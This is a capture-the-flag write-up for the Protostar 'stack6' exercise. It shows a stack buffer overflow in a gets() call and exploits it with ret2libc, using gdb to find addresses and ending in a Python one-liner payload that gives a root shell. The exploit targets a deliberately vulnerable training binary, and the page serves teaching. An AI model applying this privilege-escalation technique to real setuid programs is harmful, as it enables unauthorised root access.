 # Stack Six

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Writeup

We can try the **ret2libc** approach for this challenge.

In the code there are a check to the return address and if it is inside the stack will prompt: **bzzzt**

We must inject a valid address. For example there is the system call **system()** that is not in the stack and can execute a **/bin/sh**.

Let's debug the binary:

```bash
gdb /opt/protostar/bin/stack6
```

Unset the LINES and COLUMNS environment variables:

```
unset env LINES
unset env COLUMNS
```

Send the command start to create the process and execute the first statement:

```
start
```

Now we can print the address of **system()** wrapper function:

```
p system
```

With this output:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

The address is valid, is not in the stack.

Now need to find the address of **buffer** and **ret**.

To do it, need to set a breakpoint to the **getpath()** function.

Let's disassembly getpath:

```
disass getpath
```

With this output:

```
(gdb) disass getpath
Dump of assembler code for function getpath:
0x08048484 <getpath+0>:	push   %ebp
0x08048485 <getpath+1>:	mov    %esp,%ebp
0x08048487 <getpath+3>:	sub    $0x68,%esp
0x0804848a <getpath+6>:	mov    $0x80485d0,%eax
0x0804848f <getpath+11>:	mov    %eax,(%esp)
0x08048492 <getpath+14>:	call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:	mov    0x8049720,%eax
0x0804849c <getpath+24>:	mov    %eax,(%esp)
0x0804849f <getpath+27>:	call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:	lea    -0x4c(%ebp),%eax
0x080484a7 <getpath+35>:	mov    %eax,(%esp)
0x080484aa <getpath+38>:	call   0x8048380 <gets@plt>
0x080484af <getpath+43>:	mov    0x4(%ebp),%eax
0x080484b2 <getpath+46>:	mov    %eax,-0xc(%ebp)
0x080484b5 <getpath+49>:	mov    -0xc(%ebp),%eax
0x080484b8 <getpath+52>:	and    $0xbf000000,%eax
0x080484bd <getpath+57>:	cmp    $0xbf000000,%eax
0x080484c2 <getpath+62>:	jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:	mov    $0x80485e4,%eax
0x080484c9 <getpath+69>:	mov    -0xc(%ebp),%edx
0x080484cc <getpath+72>:	mov    %edx,0x4(%esp)
0x080484d0 <getpath+76>:	mov    %eax,(%esp)
0x080484d3 <getpath+79>:	call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:	movl   $0x1,(%esp)
0x080484df <getpath+91>:	call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:	mov    $0x80485f0,%eax
0x080484e9 <getpath+101>:	lea    -0x4c(%ebp),%edx
0x080484ec <getpath+104>:	mov    %edx,0x4(%esp)
0x080484f0 <getpath+108>:	mov    %eax,(%esp)
0x080484f3 <getpath+111>:	call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:	leave  
0x080484f9 <getpath+117>:	ret    
End of assembler dump.
```

Set the breakpoint to the **sub $0x68,%esp**, because the ebp is already pushed in the stack:

```
b *0x08048487
```

Continue the execution:

```
c
```

We now can print ebp+4 for the return address of the getpath() function:

```
p $ebp+4
```

With this result:

```
(gdb) p $ebp+4
$2 = (void *) 0xbffffcec
```

Now go to the **gets** call and take the **buffer** address:

```
b *0x080484aa
```

Continue the execution:

```
c
```

Show registers:

```
info registers
```

With this output:

```
(gdb) info registers
eax            0xbffffc9c	-1073742692
ecx            0xb7fd9340	-1208118464
edx            0x0	0
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffc80	0xbffffc80
ebp            0xbffffce8	0xbffffce8
esi            0x0	0
edi            0x0	0
eip            0x80484aa	0x80484aa <getpath+38>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

The address of the **buffer** is in **eax** (**0xbffffc9c**).

We are now able to discover the number of word between the **buffer** and the **EIP**:

```
0xbffffcec - 0xbffffc9c = 50 = 80
```

The buffer size is 64, we can subtract 64:

```
80 - 64 = 16 / 4 = 4 word
```

Need to write 4 word of junk to get the **EIP** register.

After that need to write the **system()** address.

But there is a problem: After the system() address need to write a return address of the function and only after that need to write the parameter.

For the function after system() we can use the **exit()** function.

Let's find his address:

```
p exit
```

With this output:

```
(gdb) p exit
$3 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Ok now remain only the parameter of the system() function.

We can write it into the buffer and write a pointer to it after the exit() address.

As this:

```python
'/bin//sh\x00' + 'a' * (64-9) + 'bbbb' * 4 + system() + exit() + '\x9c\xfc\xff\xbf'
```

**N.B.** **9** is the length of the parameter string

Our final exploit will be:

```bash
(python -c "print('/bin//sh\x00' + 'a' * 55 + 'bbbb' * 4 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\x9c\xfc\xff\xbf')"; cat) | /opt/protostar/bin/stack6
```

We are effective root:

```bash
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
